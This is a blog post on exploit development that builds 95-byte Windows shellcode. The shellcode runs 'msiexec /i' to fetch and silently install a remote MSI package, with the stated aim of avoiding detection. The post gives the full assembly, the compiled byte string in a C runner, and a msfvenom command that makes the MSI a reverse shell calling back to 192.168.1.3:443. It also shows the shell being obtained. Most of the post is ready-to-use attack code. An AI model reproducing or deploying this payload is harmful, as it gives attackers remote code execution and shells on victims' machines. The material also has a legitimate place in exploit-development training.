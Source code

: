 ```yaml
---
layout: post
title: WINDOWS SHELLCODE – DOWNLOAD AND EXECUTE PAYLOAD USING MSIEXEC
description: msiexec /i http://192.168.1.3/ms.msi /qn
---
```


Hello and welcome! Today I will be sharing a shellcode that came across my mind when I was preparing for my OSCE exam, so this inspired me to write and share my knowledge on how I developed a shellcode for windows to download and execute a remote payload using windows installer(msiexec.exe).

The objective for this shellcode was to obtain code execution on my target machine from the following command line, also make sure that shellcode is small in size and NULL free:

```
msiexec /i http://server/package.msi /qn
```

Typically, windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.

To achieve the above objective, I started searching for windows functions and came across a system API which takes only one parameter and that is our command line itself. We will first load msvcrt.dll library dynamically and then use system() to execute the above command line.

Reference: [System()](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2017)

With all that information, we will collect the address of following functions using arwin:

* LoadLibraryA and ExitProcess can be found in kernel32.dll, and system() can be found in msvcrt.dll. Here is the output from arwin on my WIN7 box:

![](/media/arwin.jpg)

Now that we have address of the required functions, our first step is to load msvcrt.dll dynamically with the help of  LoadLibraryA function and we do that by pushing the name of DLL (in this case msvcrt) and then calling the function LoadLibraryA as below:

```
xor eax, eax          ;Get the msvcrt.dll
mov ax, 0x7472        ;"tr\0\0"
push eax
push dword 0x6376736d ;"cvsm"
push esp

; LoadLibrary
mov ebx, 0x7717de85    ;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax           ;msvcrt.dll is saved in ebp
```

NOTE: The above snippet can be skipped if the binary/application you are trying to exploit is already loading the msvcrt.dll. (Will reduce the size of shellcode)

After loading the msvcrt.dll, we have to convert the command line to hex and insert them in a inverted order with a NULL byte at the end of string. Once the command line to be executed is pushed, we will call the system() function for its execution.
Here is how I did it:

```
My Command Line: msiexec /i http://192.168.1.3/ms.msi /qn

"ms.msi" hosted on my attacking box with local IP "192.168.1.3".
```

The above command line was converted to hex and pushed on to the stack as below: 

```
xor eax, eax      ;zero out EAX
PUSH eax	  ;NULL at the end of string
PUSH 0x6e712f20   ;"nq/ "
PUSH 0x69736d2e   ;"ism."
PUSH 0x736d2f33   ;"sm/3"
PUSH 0x2e312e38   ;".1.8"
PUSH 0x36312e32   ;"61.2"
PUSH 0x39312f2f   ;"91//"
PUSH 0x3a707474   ;":ptt"
PUSH 0x6820692f   ;"h i/"
PUSH 0x20636578   ;" cex"
PUSH 0x6569736d   ;"eism"
MOV EDI,ESP       ;adding a pointer to the stack
PUSH EDI
MOV EAX,0x7587b177 ;calling the system()(win7)
CALL EAX
```

The last part is to make sure that our shellcode exit properly by adding the following instructions at the bottom:

```
xor eax, eax
push eax
mov eax, 0x7718be52  ; ExitProcess
call eax
```

### FINAL ASSEMBLY CODE:

```
xor eax, eax             ;Get the msvcrt.dll
mov ax, 0x7472           ;"tr\0\0"
push eax
push dword 0x6376736d    ;"cvsm"
push esp

; LoadLibrary
mov ebx, 0x7717de85      ;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax             ;msvcrt.dll is saved in ebp

xor eax, eax             ;zero out EAX
PUSH eax                 ;NULL at the end of string
PUSH 0x6e712f20          ;"nq/ "
PUSH 0x69736d2e          ;"ism."
PUSH 0x736d2f33          ;"sm/3"
PUSH 0x2e312e38          ;".1.8"
PUSH 0x36312e32          ;"61.2"
PUSH 0x39312f2f          ;"91//"
PUSH 0x3a707474          ;":ptt"
PUSH 0x6820692f          ;"h i/"
PUSH 0x20636578          ;" cex"
PUSH 0x6569736d          ;"eism"
MOV EDI,ESP              ;adding a pointer to the stack
PUSH EDI
MOV EAX,0x7587b177       ;calling the system()(win7)
CALL EAX

xor eax, eax
push eax
mov eax, 0x7718be52     ; ExitProcess
call eax
```

___

### THE FINAL SHELLCODE:

```
==> Compiling the assembly code
nasm -f win32 C:\Users\JBOY\Desktop\deb.asm -o C:\Users\JBOY\Desktop\deb.o
==> Extracting the shellcode
objdump -d deb.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
==>Our final shellcode

#include<stdio.h>
#include<string.h>

char code[] = "\x31\xc0\x66\xb8\x72\x74\x50\x68\x6d\x73\x76\x63\x54\xbb\x85\xde\x17\x77\xff\xd3\x89\xc5\x31\xc0\x50\x68\x20\x2f\x71\x6e\x68\x2e\x6d\x73\x69\x68\x33\x2f\x6d\x73\x68\x38\x2e\x31\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x89\xe7\x57\xb8\x77\xb1\x87\x75\xff\xd0\x31\xc0\x50\xb8\x52\xbe\x18\x77\xff\xd0";

int main(int argc, char **argv)
{
int (*func)();
func = (int (*)()) code;
(int)(*func)();
}
```

### COMPILING AND EXECUTING THE FINAL SHELLCODE:

“ms.msi” hosted on my attacking box:

```
#Reverse shell payload generated using metasploit(msfvenom):
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=443 EXITFUNC=seh -f msi > /var/www/html/ms.msi
```

![](/media/msfvenom-msi.jpg)

```
==> Compiled the final shellcode after hosting "ms.msi":
gcc C:\Users\JBOY\Desktop\deb.c -o C:\Users\JBOY\Desktop\deb.exe
```

Once the “deb.exe” is executed:

![](/media/rev-shell-deb-exe.jpg)

BINGO.. A reverse shell from my WIN7 box!!!!

Objectives achieved:

* Shellcode is null free.
* Only 95 bytes in size.
* Target IP and the address of windows API’s can be easily configured.
* Register independent
* Supports windows platforms from XP to latest. 🙂

Link to shellcode.c: [download_execute_msiexec.c](https://github.com/kartikdurg/Windowsx86-Shellcode/blob/master/MSIEXEC/download_execute_msiexec.c)

Link to shellcode.asm: [download_execute_msiexec.asm](https://github.com/kartikdurg/Windowsx86-Shellcode/blob/master/MSIEXEC/download_execute_msiexec.asm)

Exploit-DB: [https://www.exploit-db.com/shellcodes/46281](https://www.exploit-db.com/shellcodes/46281)

Thank you for reading 🙂

– Kartik Durg